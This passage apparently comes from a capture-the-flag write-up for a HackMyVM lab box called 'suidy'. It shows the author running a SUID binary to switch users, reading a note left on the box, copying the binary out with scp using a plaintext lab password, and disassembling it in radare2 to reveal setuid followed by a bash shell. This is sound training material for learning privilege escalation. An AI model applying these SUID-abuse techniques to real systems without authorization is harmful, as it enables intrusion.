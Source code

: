 I executed `suidyyyyy` and found that it dropped me to the `suidy` user:

```shellscript
theuser@suidy:~$ /home/suidy/suidyyyyy
suidy@suidy:~$ id
uid=1001(suidy) gid=1000(theuser) grupos=1000(theuser),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

This is an intermediate privilege escalation. I then checked the `note.txt` file in `/home/suidy/`:

```shellscript
suidy@suidy:/home/suidy$ cat note.txt
I love SUID files!
The best file is suidyyyyy because users can use it to feel as I feel.
root know it and run an script to be sure that my file has SUID. If you are "theuser" I hate you!
-suidy
```

The note confirms that `suidyyyyy` is intended for privilege escalation and that `root` periodically ensures its SUID bit is set. This suggests that even if I overwrite the binary, its SUID bit will be restored.

I copied `suidyyyyy` to my Kali machine for analysis.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/suidy]
└─$ scp theuser@192.168.1.103:/home/suidy/suidyyyyy ./
theuser@192.168.1.103's password: thepass
suidyyyyy                                                                                                                            100%   16KB   4.2MB/s   00:00
```

I analyzed `suidyyyyy` using `radare2`:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/suidy]
└─$ r2 -d suidyyyyy
[0x7f54e75df440]> aaa
# ... (truncated output) ...
[0x7f54e75df440]> pdf @ main
# ... (truncated output) ...
│           0x559bdd78a159      bfe9030000     mov edi, 0x3e9          ; 1001
│           0x559bdd78a15e      e8edfeffff     call sym.imp.setuid     ; int setuid(int uid)
│           0x559bdd78a163      bfe9030000     mov edi, 0x3e9          ; 1001
│           0x559bdd78a168      e8d3feffff     call sym.imp.setgid     ; int setgid(int gid)
│           0x559bdd78a16d      488d3d900e..   lea rdi, str._bin_bash  ; 0x559bdd78b004 ; "/bin/bash"
│           0x559bdd78a174      b800000000     mov eax, 0
│           0x559bdd78a179      e8b2feffff     call sym.imp.system     ; int system(const char *string)
# ... (truncated output) ...
```

The `main` function of `suidyyyyy` calls `setuid(1001)` (which is `suidy`'s UID) and `setgid(1001)` (which is `suidy`'s GID), and then executes `/bin/bash` using `system()`. This explains why running `suidyyyyy` drops me to the `suidy` user.
